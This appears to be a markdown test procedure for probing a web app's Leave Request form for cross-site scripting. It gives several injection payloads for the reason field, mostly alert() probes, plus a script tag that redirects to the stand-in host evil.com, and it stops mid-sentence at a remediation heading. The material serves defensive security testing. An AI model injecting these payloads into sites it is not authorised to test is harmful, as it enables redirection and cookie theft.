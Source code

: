 ## Step-by-Step Testing Procedure

### Test 1: Basic HTML Injection
1. Go to Leave Request form
2. Select "Sick Leave"
3. Pick any date
4. In reason field, enter: `<h1>HTML Test</h1>`
5. Submit and check if HTML renders or is escaped

### Test 2: SVG-based XSS
1. In reason field, enter: `<svg onload=alert('SVG XSS')>`
2. Submit form
3. Check both form display and admin approval page

### Test 3: Image-based XSS  
1. In reason field, enter: `<img src=x onerror=alert('IMG XSS')>`
2. Submit form
3. Monitor for JavaScript execution

### Test 4: Event Handler XSS
1. In reason field, enter: `" onmouseover="alert('Event XSS')"`
2. Submit form
3. Hover over the displayed text

### Test 5: DOM-based XSS
1. Check if any JavaScript processes user input
2. Look for `innerHTML`, `document.write`, `eval()` usage
3. Test with payloads like: `<script>document.location='http://evil.com'</script>`

## What to Look For

### Signs of Successful XSS:
- ✅ JavaScript alert box appears
- ✅ Console errors about blocked scripts
- ✅ Unexpected HTML rendering
- ✅ Network requests to external domains
- ✅ Cookies being stolen/manipulated

### Signs of Protection:
- ✅ Payloads displayed as plain text
- ✅ HTML entities (&lt; &gt; &amp;)
- ✅ CSP violations in console
- ✅ Scripts not executing

## Remediation Testing

After developers fix XSS vulnerabilities, retest with:
